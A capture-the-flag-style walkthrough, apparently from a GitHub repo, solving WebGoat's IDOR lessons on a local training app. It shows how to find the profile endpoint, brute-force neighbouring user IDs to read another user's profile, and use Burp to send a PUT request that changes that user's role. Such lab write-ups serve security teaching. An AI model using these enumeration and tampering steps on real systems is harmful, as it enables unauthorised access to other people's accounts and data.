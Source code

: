 # Task 2

1. Just login as tom
   login

```
tom
```

password

```
cat
```

2. Done XD

# Task 3

1. Open browser network tab
2. Click on "view profile" button
3. Click on "profile" response

```
{
  "role" : 3,
  "color" : "yellow",
  "size" : "small",
  "name" : "Tom Cat",
  "userId" : "2342384"
}
```

4. There are two missed keys

```
userId, role
```

# task 4

1. We have to get route for profile request
2. Go to exercise 3, open network tab in browser and click button view profile.
3. As we can see in header section

```
Request URL: http://localhost:8080/WebGoat/IDOR/profile

```

Get userId from response tab. Example

```
{
  "role" : 3,
  "color" : "yellow",
  "size" : "small",
  "name" : "Tom Cat",
  "userId" : "2342384"
}
```

4. Go back to exercise 4
5. Combine info into one path

```
WebGoat/IDOR/profile/2342384
```

# Task 5

Having knowledge that url looks like

```
http://localhost:8080/WebGoat/IDOR/profile/{id}
```

Where id colud be anything, just bruteforce

1. Start from http://localhost:8080/WebGoat/IDOR/profile/2342380
2. Change last digit in id
3. ...
4. in this example 2342388 was lucky

Final url is

```
http://localhost:8080/WebGoat/IDOR/profile/2342388
```

that shows output

```
{
  "lessonCompleted" : true,
  "feedback" : "Well done, you found someone else's profile",
  "output" : "{role=3, color=brown, size=large, name=Buffalo Bill, userId=2342388}",
  "assignment" : "IDORViewOtherProfile",
  "attemptWasMade" : true
}
```

## In second part

1. Copy previously gaind data :

```
{role=3, color=brown, size=large, name=Buffalo Bill, userId=2342388}
```

2. Go to Webgoat and turn on interception on burp tool
3. Click button ( 2nd view profile)
4. Intercept
5. Find GET request ( Webgoat/IDOR/profile/....)
6. Send to repeater
7. Change GET to PUT
8. Change Content-Type to: application/json;charset=UTF-8
9. Add body as json found previously

```
{role=3, color=brown, size=large, name=Buffalo Bill, userId=2342388}
```

10. Response will say you are close
11. Try to change color and role
12. Try

```
{"role":1, "color":"red", "size":"large", "name":"Buffalo Bill", "userId":2342388}

```
